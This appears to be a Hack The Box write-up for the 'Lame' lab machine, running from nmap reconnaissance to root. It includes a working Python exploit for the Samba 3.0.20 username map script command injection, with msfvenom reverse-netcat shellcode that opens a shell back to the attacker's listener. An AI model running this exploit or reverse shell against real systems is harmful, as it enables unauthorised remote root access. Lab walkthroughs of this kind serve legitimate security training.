 ```yaml
---
title: Hack The Box - Lame (Without Metasploit)
date: 2021-01-08 17:56:00 +0800
categories: [hackthebox]
tags: [linux, samba]
---
```


After completing all 66 boxes in the PWK labs, I decided to move on to TJNull's OSCP list of HackTheBoxes which are said to be similar to the ones in the exams. Fortunately the 12 month VIP Lab code which I won from some event was still usable :) 

![](/assets/images/lame.png){:height="414px" width="615px"}

# Configuration

The operating system that I will be using to tackle this machine is a Kali Linux VM.

What I learnt from other writeups is that it was a good habit to map a domain name to the machine's IP address so as that it will be easier to remember. This can done by appending a line to `/etc/hosts`.

```bash
$ echo "10.10.10.3 lame" | sudo tee -a /etc/hosts
```

# Reconnaissance

```bash
$ nmap -sT -sV -sC -Pn lame                      
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-08 04:07 EST
Nmap scan report for lame (10.10.10.3)
Host is up (0.014s latency).
Not shown: 996 filtered ports
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.7
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 2h31m20s, deviation: 3h32m08s, median: 1m19s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2021-01-08T04:08:43-05:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 57.60 seconds
```

# Enumeration

## Port 21 `vsftpd 2.3.4`

Only a few ports to interact with, which is great! Seeing that `vsftpd 2.3.4` is running on port `21`, I instantly remembered of the funny backdoor where sending a `:)` in the username would result in a shell listening on port `6200`. I used `nmap`'s `ftp-vsftpd-backdoor` script and it revealed that the backdoor was no longer there :/

```bash
$ nmap -Pn --script ftp-vsftpd-backdoor -p 21 lame                   
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-08 04:41 EST
Nmap scan report for lame (10.10.10.3)
Host is up (0.015s latency).

PORT   STATE SERVICE
21/tcp open  ftp

Nmap done: 1 IP address (1 host up) scanned in 21.22 seconds
```

## Port 445 `Samba 3.0.20-Debian`

```bash
$ searchsploit samba 3.0.20
--------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                   |  Path
--------------------------------------------------------------------------------- ---------------------------------
Samba 3.0.10 < 3.3.5 - Format String / Security Bypass                           | multiple/remote/10095.txt
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit) | unix/remote/16320.rb
...
```

Using `searchsploit`, we see that there is a `Metasploit` module that targets this version of `samba`. However, I will be attempting the non-Metasploit approach by using this [script](https://gist.github.com/joenorton8014/19aaa00e0088738fc429cff2669b9851) that I found online.

# Exploitation

```python
#!/usr/bin/python

from smb.SMBConnection import SMBConnection
import random, string
from smb import smb_structs
smb_structs.SUPPORT_SMB2 = False
import sys


# Just a python version of a very simple Samba exploit. 
# It doesn't have to be pretty because the shellcode is executed
# in the username field. 

# Based off this Metasploit module - https://www.exploit-db.com/exploits/16320/ 

# Configured SMB connection options with info from here:
# https://pythonhosted.org/pysmb/api/smb_SMBConnection.html

# Use the commandline argument as the target: 
if len(sys.argv) < 2:
    print "\nUsage: " + sys.argv[0] + " <HOST>\n"
    sys.exit()


# Shellcode: 
# msfvenom -p cmd/unix/reverse_netcat LHOST=10.0.0.35 LPORT=9999 -f python

buf =  ""
buf += "\x6d\x6b\x66\x69\x66\x6f\x20\x2f\x74\x6d\x70\x2f\x6b"
buf += "\x62\x67\x61\x66\x3b\x20\x6e\x63\x20\x31\x30\x2e\x30"
buf += "\x2e\x30\x2e\x33\x35\x20\x39\x39\x39\x39\x20\x30\x3c"
buf += "\x2f\x74\x6d\x70\x2f\x6b\x62\x67\x61\x66\x20\x7c\x20"
buf += "\x2f\x62\x69\x6e\x2f\x73\x68\x20\x3e\x2f\x74\x6d\x70"
buf += "\x2f\x6b\x62\x67\x61\x66\x20\x32\x3e\x26\x31\x3b\x20"
buf += "\x72\x6d\x20\x2f\x74\x6d\x70\x2f\x6b\x62\x67\x61\x66"
buf += "\x20"


username = "/=`nohup " + buf + "`"
password = ""
conn = SMBConnection(username, password, "SOMEBODYHACKINGYOU" , "METASPLOITABLE", use_ntlm_v2 = False)
assert conn.connect(sys.argv[1], 445)
```

Before running this script, we will need to install the `pysmb` module, which the script requires.

```bash
$ sudo pip2 install pysmb
```

Next up, as the script says, we will need to generate our shellcode using `msfvenom`.

```bash
$ msfvenom -p cmd/unix/reverse_netcat LHOST=tun0 LPORT=9999 -f python
[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder specified, outputting raw payload
Payload size: 92 bytes
Final size of python file: 467 bytes
buf =  b""
buf += b"\x6d\x6b\x66\x69\x66\x6f\x20\x2f\x74\x6d\x70\x2f\x61"
buf += b"\x72\x74\x6d\x6b\x3b\x20\x6e\x63\x20\x31\x30\x2e\x31"
buf += b"\x30\x2e\x31\x34\x2e\x37\x20\x39\x39\x39\x39\x20\x30"
buf += b"\x3c\x2f\x74\x6d\x70\x2f\x61\x72\x74\x6d\x6b\x20\x7c"
buf += b"\x20\x2f\x62\x69\x6e\x2f\x73\x68\x20\x3e\x2f\x74\x6d"
buf += b"\x70\x2f\x61\x72\x74\x6d\x6b\x20\x32\x3e\x26\x31\x3b"
buf += b"\x20\x72\x6d\x20\x2f\x74\x6d\x70\x2f\x61\x72\x74\x6d"
buf += b"\x6b"
```

After replacing the shellcode in the script with one we generated, we can start our `nc` listener on port `9999` and run the script.

```bash
$ python samba_usermap_exploit.py lame
```

```bash
$ sudo rlwrap nc -vlnp 9999  
listening on [any] 9999 ...
connect to [10.10.X.X] from (UNKNOWN) [10.10.10.3] 49921
whoami
root
```

</td>
</tr>
</table>

Nice, we instantly got a shell as `root` without having to perform any privilege escalation! Lets try to get a nicer prompt

```bash
python -c "import pty; pty.spawn('/bin/bash')"
root@lame:/root#
```

# user.txt

The user flag is located at `/home/makis`.

```bash
root@lame:/home/makis# cat user.txt
7b12XXXXXXXXXXXXXXXXXXXXXXXXXXXX
```

# root.txt

The root flag is located at `/root` as always.

```bash
root@lame:/root# cat root.txt
a608XXXXXXXXXXXXXXXXXXXXXXXXXXXX
```

### Rooted ! Thank you for reading and look forward for more writeups and articles !